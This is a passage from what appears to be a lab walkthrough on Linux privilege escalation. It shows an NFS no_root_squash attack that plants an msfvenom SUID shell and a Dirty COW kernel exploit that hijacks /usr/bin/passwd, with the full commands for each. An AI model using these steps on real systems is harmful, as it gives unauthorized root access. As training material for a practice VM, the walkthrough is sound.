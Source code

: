 ```bash
cat /etc/exports
```

Note that the /tmp share has root squashing disabled.

On your Kali box, switch to your root user if you are not already running as root:

```bash
sudo su
```

Using Kali's root user, create a mount point on your Kali box and mount the /tmp share (update the IP accordingly):

```bash
mkdir /tmp/nfs
mount -o rw,vers=3 10.10.10.10:/tmp /tmp/nfs
```

Still using Kali's root user, generate a payload using msfvenom and save it to the mounted share (this payload simply calls /bin/bash):

```bash
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
```

Still using Kali's root user, make the file executable and set the SUID permission:

```bash
chmod +xs /tmp/nfs/shell.elf
```

Back on the Debian VM, as the low privileged user account, execute the file to gain a root shell:

```bash
/tmp/shell.elf
```

## 20. Kernel Exploits

Kernel exploits can leave the system in an unstable state, which is why you should only run them as a last resort.

Run the **Linux Exploit Suggester 2** tool to identify potential kernel exploits on the current system:

```bash
perl /home/user/tools/kernel-exploits/linux-exploit-suggester-2/linux-exploit-suggester-2.pl
```

The popular Linux kernel exploit "Dirty COW" should be listed. Exploit code for Dirty COW can be found at **/home/user/tools/kernel-exploits/dirtycow/c0w.c**. It replaces the SUID file /usr/bin/passwd with one that spawns a shell (a backup of /usr/bin/passwd is made at /tmp/bak).

Compile the code and run it (note that it may take several minutes to complete):

```bash
gcc -pthread /home/user/tools/kernel-exploits/dirtycow/c0w.c -o c0w
./c0w
```

Once the exploit completes, run /usr/bin/passwd to gain a root shell:

```bash
/usr/bin/passwd
```

## 21. Privilege Escalation Scripts

Several tools have been written which help find potential privilege escalations on Linux. Check the **[tools/](tools/)** directory for a list of these tools.
